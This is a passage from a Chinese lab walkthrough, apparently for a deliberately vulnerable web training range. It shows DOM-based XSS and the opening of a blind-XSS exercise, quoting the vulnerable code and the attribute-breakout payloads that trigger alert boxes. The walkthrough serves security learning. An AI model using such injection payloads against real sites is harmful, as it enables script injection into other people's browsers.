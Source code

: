 它通过 getElementById 获取到了标签 Id 为 text的内容赋值给str， 然后又把 str 的内容通过字符串拼接的方式写到了 a 标签的 href 属性中，a标签会写到 Id 为 dom的 div 标签中

我们通过闭合的方式构造Payload
```
#' onclick=alert("LSAQ-XMTX")>
```

代入到a标签<br />`<a href='"#' onclick=alert("LSAQ-XMTX")>"'>what do you see?</a>`

成功弹窗<br />![image-20210625170039757.png](_img/assets/1655883027650-e287b791-1f28-4a96-9f9d-7849e2f9881b.png)

# DOM型xss-X

## 查看关键代码
```php
$html='';
if(isset($_GET['text'])){
    $html.= "<a href='#' onclick='domxss()'>有些费尽心机想要忘记的事情,后来真的就忘掉了</a>";
}
```

依然是没有撒子东西，直接开干！


## 实战
首先输入
```
<script>alert(LSAQ-XMTX)</script>
```

结果没有任何反应，按F12在查看器中查看，和上面的如出一辙，字符串拼接写到了 a 标签的 href 属性中，a标签会写到 Id 为 dom的 div 标签中<br />![image-20210625170708736.png](_img/assets/1655883045033-2c25ca02-cb88-4e40-9507-6144db7c5f0c.png)

构造的Payload跟刚才是一样的
```
#' onclick=alert("LSAQ-XMTX")>
```

成功弹窗<br />![image-20210625170826856.png](_img/assets/1655883051352-83de4caa-7957-41ff-bc62-c072cab80a22.png)


# XSS之盲打

## 查看关键源码
```php
$link=connect();
$html='';
if(array_key_exists("content",$_POST) && $_POST['content']!=null){
    $content=escape($link, $_POST['content']);
    $name=escape($link, $_POST['name']);
    $time=$time=date('Y-m-d g:i:s');
    $query="insert into xssblind(time,content,name) values('$time','$content','$name')";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)==1){
        $html.="<p>谢谢参与，阁下的看法我们已经收到!</p>";
    }else {
        $html.="<p>ooo.提交出现异常，请重新提交</p>";
    }
```
